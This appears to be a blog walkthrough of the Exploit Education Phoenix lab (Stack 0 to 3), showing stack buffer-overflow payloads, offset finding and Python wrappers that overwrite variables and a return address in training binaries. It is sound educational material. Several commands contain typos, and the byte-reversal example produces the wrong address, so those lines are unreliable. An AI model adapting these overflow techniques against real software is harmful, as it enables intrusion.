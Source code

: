 ```yaml
---
title: "Phoenix"
date: 2020-03-23T11:24:34-04:00
draft: false
description: "Adventures in Learning ROP (Return Oriented Programming) | Using Exploit-Exercises Phoenix VM Image"
---
```


**Description:** 

The Phoenix VM Image can be found here:  https://exploit.education/phoenix/

The virtual machine containers a number of vulnerable executables that allow students to learn stack, format-string, and heap-based overflows. The stack series contains executables stack 0-6. Format string vulnerabilities include format 0-4, and the heap vulnerabilitites include heap 0-3.  

# Stack 0

Running ./stack-zero provides us with a place to enter some data. Entering a random sequence "AAAA" gives us the output:  ```Uh oh, 'changeme' has not yet been changed. Would you like to try again?```

Trying to send the program even more data (since this is a BoF lab) results in a successful completion of the challenge. 
```
python -c 'print "A" * 100' | ./stack-zero

Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```


# Stack 1  

```bash
pattern_create.rb -l 100
```  

```bash
./stack-one Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A  
```

>Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x63413163, we want 0x496c5962


```bash
pattern_offset -l 0x63413163

[*] Exact match at offset 64  
```  

Since we know there is a buffer size of 64 before we write to the changeme address space, we can write 64 bytes of garbage, followed by the intended value to store, written in little-endian so that it can be properly stored in memory. 

```bash
python -c 'print "A" * 64 + "\x62\x59\x6c\x49"'
```



The above will print 64 A's followed by the little-endian address.  

We can pass this to the stack-one executable as such:  


__python__
```bash
./stack-one $($python -c 'print "A" * 64" + "\x62\x59\x6c\x49"')
```
>Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value  


__python3__
```bash
./stack-one $(python3 -c 'print("A"*64 + "\x62\x59\x6c\x49")')
```

>Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value



# Stack 2

First running ./stack-two tells us to set the ExploitEducation environment variable.

$ export ExploitEducation="test"
./stack-two

> Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a

Bummer it looks the program is reading from the environment variable and that is where we can overflow the buffer
to set the changeme value that we need to pass the challenge.

__python 2__
```bash
export ExploitEducation=$(python -c 'print "A" * 64 + "\x0a\x09\x0a\x0d"')
```

__python3__
```bash
export ExploitEducation=$(python3 -c 'print("A"*64+"\x0a\x09\x0a\x0d")')
```

As python scripts:

__python2__
```python
#!/usr/bin/python

import os

#0x0d0a090a
#os.environ["ExploitEducation"] = "$(python3 -c 'print(\"A\" * 64 + \"\\x0a\\x09\\x0a\\x0d\")')"

os.system("ExploitEducation=$(python -c 'print \"A\"*64 + \"\\x0a\\x09\\x0a\\x0d\"') /opt/phoenix/amd64/stack-two")
```

__python3__
```python
#!/usr/bin/python3
import os

os.system("ExploitEducation=$(python3 -c 'print(\"A\"*64 + \"\\x0a\\x09\\x0a\\x0d\")') /opt/phoenix/amd64/stack-two")
```


# Stack 2

```bash
obj -d stack-three
```
We notice a function called "complete_challenge" located at address: 0x08048535, lets see if we can call
that function with a BoF. 

```bash
pattern_create -l 200
```

echo "$(pattern_create -l 200)" | ./stack-three
>exact match at 64

So we know our buffer is 64 bytes long before we overwrite EIP. 

```bash
python -c 'print "A"*64 + "\x35\x85\x04\x08"' | ./stack-three
```

The amd64 implementation of this is almost exactly the same except the memory address passed in EIP is only
3 bytes long, I have to research why that is the fact. 

An alternative to writing these exploits in little endian, is to use a little-known string reversal function
provided in python:

myString="hello"
myString[::-1]
>'olleh'

```bash
python -c 'print "A"*64 + "\x08\x08\x85\x35"[::-1]' | ./stack-three
```








